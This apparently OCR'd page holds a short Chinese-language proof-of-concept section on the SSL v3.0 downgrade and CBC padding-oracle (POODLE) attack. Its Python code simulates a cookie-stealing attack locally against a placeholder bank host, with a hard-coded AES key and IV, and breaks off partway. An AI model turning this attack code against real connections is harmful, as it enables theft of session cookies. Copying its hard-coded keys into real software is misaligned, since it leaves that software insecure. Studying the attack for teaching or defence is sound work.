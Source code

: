     + #### POC

      攻击者首先使用降级攻击，来让浏览器使用ssl v3.0，再通过ssl v3.0 CBC-mode 存在的缺陷，窃取到用户传输的明文。

      ```python
      import sys
      import string
      import random
      from Crypto.Cipher import AES
       
      key = 'lyp62/22Sh2RlXJF'
      mode = AES.MODE_CBC
      vi = '1234567812345678'
      charset = string.letters + string.digits
      cookie = ''.join(random.choice(charset) for x in range(30))
      HEADERS = ("POST / HTTP/1.1\r\n"
                 "Host: thebankserver.com\r\n"
                 "Connection: keep-alive\r\n"
                 "User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.1 (KHTML, like Gecko) Chrome/22.0.1207.1 Safari/537.1\r\n"
                 "Accept: */*\r\n"
                 "Referer: https://thebankserver.com/\r\n"
                 "Cookie: secret="+cookie+"\r\n"
                 "Accept-Encoding: gzip,deflate,sdch\r\n"
                 "Accept-Language: en-US,en;q=0.8\r\n"
                 "Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.3\r\n"
                 "\r\n")
      global pad_num
      def add_padding(plaintext):
          global pad_num
          pad_num = 16 - len(plaintext) % 16
          for i in range(0,pad_num):
              plaintext += chr(pad_num)
          return plaintext
      def check_padding(plaintext):
          global pad_num
          for i in range(1,pad_num+1):
              if (plaintext[-i]!=chr(pad_num)):
                  return False
          return True
       
      def encrypto(plaintext):
          global pad_num
          obj = AES.new(key,mode,vi)
          if (len(plaintext) % 16):
              plaintext = add_padding(plaintext)
          else:
              pad_num=0
          ciphertext = obj.encrypt(plaintext)
          if (check_padding(ciphertext)):
              return ciphertext
          else:
              return 0
       